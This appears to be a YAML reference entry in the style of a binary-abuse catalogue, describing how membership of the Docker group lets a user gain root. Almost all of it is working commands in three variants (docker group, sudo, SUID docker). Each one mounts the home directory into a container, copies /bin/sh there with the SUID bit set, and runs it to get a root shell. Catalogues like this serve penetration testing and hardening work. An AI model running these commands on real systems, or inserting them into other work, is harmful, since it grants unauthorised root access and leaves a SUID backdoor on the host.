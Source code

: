 ```yaml
---
description: |
  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, i.e., being in the `docker` group.

  This creates a SUID shell in the guest file system. Any other Linux images should work, e.g., `debian`.
functions:
  execute-interactive:
    - code: |
        docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
  sudo-enabled:
    - code: |
        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
  suid-enabled:
    - code: |
        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
---
```

